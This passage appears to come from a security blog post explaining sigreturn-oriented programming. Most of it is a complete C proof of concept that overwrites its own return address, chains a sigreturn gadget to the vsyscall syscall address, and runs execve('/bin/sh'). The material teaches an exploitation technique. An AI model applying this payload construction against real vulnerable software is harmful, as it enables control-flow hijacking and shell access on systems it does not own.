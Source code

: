 Assumed that we found the required gadgets, we need to arrange our payload as
shown in figure 3 in order to successfully exploit a classic stack-based
overflow. Note that zeroes should be allowed in the payload (e.g. a non strcpy
vulnerability); otherwise, we need to find a way to zero some parts of
uc_mcontext structure.

The following code (srop.c) is a proof of concept of sigreturn oriented
programming that starts a /bin/sh shell:

{% highlight c %}
#include <stdio.h>
#include <string.h>
#include <signal.h>
 
#define SYSCALL 0xffffffffff600007
 
struct ucontext ctx;
char *shell[] = {"/bin/sh", NULL};
 
void gadget();
 
int main()
{
    unsigned long *ret;
 
    /* initializing the context structure */
    bzero(&ctx, sizeof(struct ucontext));
 
    /* setting rip value (points to syscall address) */
    ctx.uc_mcontext.gregs[16] = SYSCALL;
 
    /* setting 0x3b in rax (execve syscall) */
    ctx.uc_mcontext.gregs[13] = 0x3b;
 
    /* setting first arg of execve in rdi */
    ctx.uc_mcontext.gregs[8] = shell[0];
 
    /* setting second arg of execv in rsi */
    ctx.uc_mcontext.gregs[9] = shell;
 
    /* cs = 0x33 */
    ctx.uc_mcontext.gregs[18] = 0x33;
 
    /* overflowing */
    ret = (unsigned long *)&ret + 2;
    *ret = (int)gadget + 4; //skip gadget's function prologue
    *(ret + 1) = SYSCALL;
    memcpy(ret + 2, &ctx, sizeof(struct ucontext));
    return 0;
}
 
void gadget()
{
    asm("mov $0xf,%rax\n");
    asm("retq\n");
}
{% endhighlight %}


[haka-blur]: {{site.baseurl}}/images/haka_blur.png